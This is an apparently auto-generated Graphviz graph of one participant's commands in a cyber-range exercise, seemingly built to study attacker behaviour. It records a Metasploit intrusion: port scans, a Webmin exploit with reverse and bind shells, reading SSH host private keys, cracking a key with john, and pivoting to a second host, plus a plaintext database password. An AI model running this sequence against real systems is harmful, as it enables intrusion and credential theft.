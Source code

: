 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 "]
	1 [label="nmap -p1-65535 172.18.1.5 A0 "]
	2 [label="msfdb init U"]
	3 [label="msf U"]
	4 [label="apt-get install armitage U"]
	5 [label="apt-get update U"]
	6 [label="exit U"]
	7 [label="armitage U"]
	8 [label="back U"]
	9 [label="db_status U"]
	10 [label="setg U"]
	11 [label="back U"]
	12 [label="back U"]
	13 [label="db_connect msf:h+L0Xf0385dbIjRgtPnNOaZSMxa7YHoFzS6ojuOkYFc=@localhost:5432/msf U"]
	14 [label="use windows/meterpreter/reverse_tcp U"]
	15 [label="back U"]
	16 [label="back U"]
	17 [label="setg LHOST 10.1.135.83 U"]
	18 [label="jobs U"]
	19 [label="back U"]
	20 [label="setg LPORT 28605 U"]
	21 [label="back U"]
	22 [label="back U"]
	23 [label="hosts -a 172.18.1.5 U"]
	24 [label="back U"]
	25 [label="use auxiliary/scanner/portscan/tcp U"]
	26 [label="set RHOSTS 172.18.1.5 U"]
	27 [label="set THREADS 24 U"]
	28 [label="set PORTS 50000 U"]
	29 [label="run -j U"]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 U"]
	31 [label="show exploits U"]
	32 [label="back U"]
	33 [label="use auxiliary/scanner/portscan/tcp U"]
	34 [label="set RHOSTS 172.18.1.5 U"]
	35 [label="set THREADS 24 U"]
	36 [label="set PORTS 50000 U"]
	37 [label="run -j U"]
	38 [label="msfconsole U"]
	39 [label="set RHOSTS 172.18.1.5 U"]
	40 [label="show U"]
	41 [label="show all U"]
	42 [label="show U"]
	43 [label="set exploit U"]
	44 [label="set exploit 2019-15107 A1 M1 "]
	45 [label="help U"]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 U"]
	47 [label="use exploit/multi/handler U"]
	48 [label="set LHOST 0.0.0.0 U"]
	49 [label="set PAYLOAD generic/shell_reverse_tcp U"]
	50 [label="set LPORT 14718 U"]
	51 [label="set ExitOnSession false U"]
	52 [label="exploit -j U"]
	53 [label="use exploit/47230 U"]
	54 [label="set RHOSTS 172.18.1.5 U"]
	55 [label="set TARGETURI / U"]
	56 [label="set TARGET 0 U"]
	57 [label="set LHOST 10.1.135.83 U"]
	58 [label="set LPORT 11265 U"]
	59 [label="set PAYLOAD generic/shell_bind_tcp U"]
	60 [label="set RPORT 80 U"]
	61 [label="set SSL 0 U"]
	62 [label="exploit -j U"]
	63 [label="use exploit/47230 U"]
	64 [label="set RHOSTS 172.18.1.5 U"]
	65 [label="set TARGETURI / U"]
	66 [label="set TARGET 0 U"]
	67 [label="set LHOST 10.1.135.83 U"]
	68 [label="set LPORT 2139 U"]
	69 [label="set PAYLOAD generic/shell_bind_tcp U"]
	70 [label="set RPORT 10000 U"]
	71 [label="set SSL 0 U"]
	72 [label="exploit -j U"]
	73 [label="sessions U"]
	74 [label="sessions -u 1 U"]
	75 [label="use exploit/47230 U"]
	76 [label="set RHOSTS  U"]
	77 [label="set TARGETURI / U"]
	78 [label="set TARGET 0 U"]
	79 [label="set LHOST 10.1.135.83 U"]
	80 [label="set LPORT 26069 U"]
	81 [label="set PAYLOAD generic/shell_bind_tcp U"]
	82 [label="set RPORT 10000 U"]
	83 [label="set SSL 0 U"]
	84 [label="exploit -j U"]
	85 [label="use exploit/multi/handler U"]
	86 [label="set LHOST 10.1.135.83 U"]
	87 [label="set LPORT 8871 U"]
	88 [label="set PAYLOAD generic/shell_reverse_tcp U"]
	89 [label="set ExitOnSession false U"]
	90 [label="exploit -j U"]
	91 [label="hosts -a 172.18.1.5 U"]
	92 [label="back U"]
	93 [label="use exploit/47230 U"]
	94 [label="set RHOSTS 172.18.1.5 U"]
	95 [label="set TARGETURI / U"]
	96 [label="set TARGET 0 U"]
	97 [label="set LHOST 10.1.135.83 U"]
	98 [label="set LPORT 17595 U"]
	99 [label="set PAYLOAD generic/shell_bind_tcp U"]
	100 [label="set RPORT 10000 U"]
	101 [label="set SSL 0 U"]
	102 [label="exploit -j U"]
	103 [label="sessions U"]
	104 [label="sessions -u 3 U"]
	105 [label="sessions --help U"]
	106 [label="sessions -h U"]
	107 [label="sessions -c 3 ls U"]
	108 [label="sessions 3 -c ls U"]
	109 [label="sessions 3 -c dir U"]
	110 [label="sessions 3 -c ls U"]
	111 [label="sessions 3 -c dir U"]
	112 [label="sessions 3 -c cd / U"]
	113 [label="sessions 3 -c pwd U"]
	114 [label="sessions 3 -c dir U"]
	115 [label="sessions 3 -c WARNING-READ-ME.txt U"]
	116 [label="sessions 3 -c nano WARNING-READ-ME.txt U"]
	117 [label="sessions 3 -c leafpad WARNING-READ-ME.txt U"]
	118 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	119 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	120 [label="sessions -u  U"]
	121 [label="sessions -u 1 U"]
	122 [label="sessions U"]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt U"]
	124 [label="sessions 3 -c ls U"]
	125 [label="sessions -k 3 U"]
	126 [label="sessions -c cd ? U"]
	127 [label="sessions -c cd / U"]
	128 [label="sessions -c cd / U"]
	129 [label="sessions -c dir U"]
	130 [label="sessions -c search history U"]
	131 [label="sessions -c find history U"]
	132 [label="sessions -c find *.bash_history U"]
	133 [label="sessions -c find -name *.bash_history U"]
	134 [label="sessions -c dir /home/eve U"]
	135 [label="sessions -c ls U"]
	136 [label="sessions -c dir /home U"]
	137 [label="sessions -c cd /home/eve U"]
	138 [label="sessions -c ls U"]
	139 [label="sessions 3 -c less .bash_history U"]
	140 [label="hosts -a 10.1.17.4 U"]
	141 [label="back U"]
	142 [label="sessions 3 -c tree U"]
	143 [label="sessions 3 -c pwd U"]
	144 [label="sessions 3 -c dir U"]
	145 [label="sessions 3 -c cd / U"]
	146 [label="sessions 3 -c find -name ssh U"]
	147 [label="sessions 3 -c cd /etc/ssh U"]
	148 [label="sessions 3 -c dir U"]
	149 [label="sessions 3 -c less ssh_host_rsa_key U"]
	150 [label="openssh U"]
	151 [label="ssh U"]
	152 [label="ssh -i /root/ssh U"]
	153 [label="dir U"]
	154 [label="dir desktop U"]
	155 [label="dir Desktop U"]
	156 [label="ssh -i /root/desktop/ssh U"]
	157 [label="less /desktop/ssh U"]
	158 [label="pwd A9 M9 "]
	159 [label="less /root/desktop/ssh U"]
	160 [label="less /root/Desktop/ssh U"]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 U"]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub U"]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 U"]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key U"]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 U"]
	166 [label="ssh U"]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 U"]
	168 [label="sessions 3 -c less ssh_config U"]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 U"]
	170 [label="chmod 600 /etc/ssh/ssh_comp U"]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 U"]
	172 [label="sessions 3 -c cd /usr/bin/ssh U"]
	173 [label="sessions 3 -c ls U"]
	174 [label="sessions 3 -c less sshd_config U"]
	175 [label="sessions 3 -c ls U"]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key U"]
	177 [label="sessions -c cd / U"]
	178 [label="sessions -c find -fname ecdsa U"]
	179 [label="sessions -c find -name ecdsa U"]
	180 [label="sessions -c find -name ecdsa_key U"]
	181 [label="sessions -c find -fname *ecdsa_key U"]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key U"]
	183 [label="sessions -c pwd U"]
	184 [label="sessions -c ls U"]
	185 [label="python ssh2john.py U"]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp A5 M5 "]
	187 [label="python ssh2john.py --help A5 M5 "]
	188 [label="python ssh2john.py U"]
	189 [label="python ssh2john.py U"]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp A5 M5 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john U"]
	192 [label="john --wordlist /root/Desktop/john U"]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john A6 M6 "]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 U"]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 U"]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 U"]
	197 [label="chmod 600 /root/Desktop/ssh_comp U"]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
